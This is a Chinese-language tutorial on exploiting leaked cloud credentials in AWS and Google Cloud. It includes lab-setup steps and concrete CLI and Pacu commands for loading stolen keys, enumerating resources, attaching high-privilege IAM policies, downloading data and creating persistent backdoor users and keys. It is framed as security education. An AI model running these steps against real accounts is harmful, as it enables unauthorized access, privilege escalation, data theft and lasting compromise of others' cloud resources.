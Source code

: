 # 云凭证泄露利用的基本概念

## 1. 技术原理解析

### 1.1 云凭证的定义与作用
云凭证（Cloud Credentials）是用于验证和授权用户或应用程序访问云服务资源的凭据。常见的云凭证包括：
- **API密钥**：用于访问云服务API的密钥对。
- **访问令牌**：临时凭证，通常由OAuth等协议生成。
- **IAM角色**：AWS等云服务中的身份和访问管理角色。
- **服务账户密钥**：Google Cloud等平台中的服务账户密钥文件。

### 1.2 云凭证泄露的途径
云凭证泄露可能通过以下途径发生：
- **代码仓库泄露**：开发者在代码中硬编码云凭证并上传至公共仓库。
- **配置错误**：云存储桶（如AWS S3）配置为公开访问，导致凭证文件暴露。
- **钓鱼攻击**：攻击者通过钓鱼邮件或网站诱骗用户泄露凭证。
- **内部威胁**：员工或合作伙伴恶意或无意泄露凭证。

### 1.3 云凭证泄露的利用机制
一旦云凭证泄露，攻击者可以利用这些凭证进行以下操作：
- **资源枚举**：列出云账户中的所有资源，如虚拟机、存储桶、数据库等。
- **权限提升**：通过现有权限获取更高权限，如创建新用户或修改IAM策略。
- **数据窃取**：访问和下载敏感数据，如客户信息、财务数据等。
- **资源滥用**：创建或启动高成本资源，如加密货币挖矿实例。

## 2. 变种与高级利用技巧

### 2.1 凭证劫持
攻击者通过中间人攻击（MITM）或恶意软件劫持云凭证，通常针对临时凭证（如AWS STS令牌）。

### 2.2 凭证复用
攻击者利用泄露的凭证尝试访问其他云服务或账户，利用用户在不同平台使用相同密码的习惯。

### 2.3 权限提升
通过分析IAM策略，攻击者发现并利用权限配置不当，提升自身权限，如通过创建新策略或附加现有策略。

### 2.4 持久化
攻击者通过创建新用户、API密钥或IAM角色，确保在原始凭证失效后仍能访问云资源。

## 3. 攻击步骤与实验环境搭建指南

### 3.1 实验环境搭建
- **云服务账户**：注册AWS、Google Cloud或Azure的免费试用账户。
- **虚拟机**：在云平台上创建一台虚拟机，安装必要的工具（如AWS CLI、gcloud）。
- **模拟泄露**：在虚拟机中创建一个包含云凭证的文件，并将其上传至公开的云存储桶。

### 3.2 攻击步骤
1. **信息收集**：
   - 使用`aws configure`或`gcloud auth login`配置泄露的凭证。
   - 使用`aws s3 ls`或`gsutil ls`列出存储桶内容。

2. **资源枚举**：
   - 使用`aws ec2 describe-instances`或`gcloud compute instances list`列出虚拟机实例。
   - 使用`aws rds describe-db-instances`或`gcloud sql instances list`列出数据库实例。

3. **权限提升**：
   - 使用`aws iam list-policies`列出IAM策略。
   - 使用`aws iam attach-user-policy`将高权限策略附加到当前用户。

4. **数据窃取**：
   - 使用`aws s3 cp`或`gsutil cp`下载敏感数据。
   - 使用`aws rds describe-db-snapshots`或`gcloud sql backups list`列出数据库备份。

5. **持久化**：
   - 使用`aws iam create-user`创建新用户。
   - 使用`aws iam create-access-key`为新用户创建API密钥。

## 4. 实际命令、代码或工具使用说明

### 4.1 AWS CLI命令示例
```bash
# 配置泄露的凭证
aws configure set aws_access_key_id <ACCESS_KEY>
aws configure set aws_secret_access_key <SECRET_KEY>

# 列出S3存储桶
aws s3 ls

# 列出EC2实例
aws ec2 describe-instances

# 列出IAM策略
aws iam list-policies

# 创建新用户
aws iam create-user --user-name AttackerUser

# 创建API密钥
aws iam create-access-key --user-name AttackerUser
```

### 4.2 Google Cloud CLI命令示例
```bash
# 配置泄露的凭证
gcloud auth activate-service-account --key-file=<KEY_FILE>

# 列出存储桶
gsutil ls

# 列出虚拟机实例
gcloud compute instances list

# 列出SQL实例
gcloud sql instances list

# 创建新服务账户
gcloud iam service-accounts create AttackerServiceAccount

# 创建密钥文件
gcloud iam service-accounts keys create key.json --iam-account=AttackerServiceAccount@<PROJECT_ID>.iam.gserviceaccount.com
```

### 4.3 工具使用
- **Pacu**：AWS渗透测试框架，支持自动化的凭证泄露利用。
  ```bash
  pacu
  set_keys <ACCESS_KEY> <SECRET_KEY>
  run iam__enum_permissions
  run ec2__enum
  ```
- **CloudMapper**：AWS环境可视化工具，帮助识别权限配置不当。
  ```bash
  python cloudmapper.py collect --account <ACCOUNT_NAME>
  python cloudmapper.py prepare --account <ACCOUNT_NAME>
  python cloudmapper.py webserver
  ```
- **ScoutSuite**：多云安全审计工具，支持AWS、Azure、Google Cloud等。
  ```bash
  scout aws --access-key-id <ACCESS_KEY> --secret-access-key <SECRET_KEY>
  scout gcp --key-file <KEY_FILE>
  ```

## 5. 总结
云凭证泄露利用是云安全中的重大威胁，攻击者可以通过泄露的凭证访问、控制和滥用云资源。理解其基本原理、变种和高级利用技巧，以及掌握实际的攻击步骤和工具使用，对于防御和应对此类威胁至关重要。通过实验环境的搭建和实战演练，可以更深入地理解云凭证泄露利用的机制，并采取有效的防护措施。

---

*文档生成时间: 2025-03-14 10:23:08*
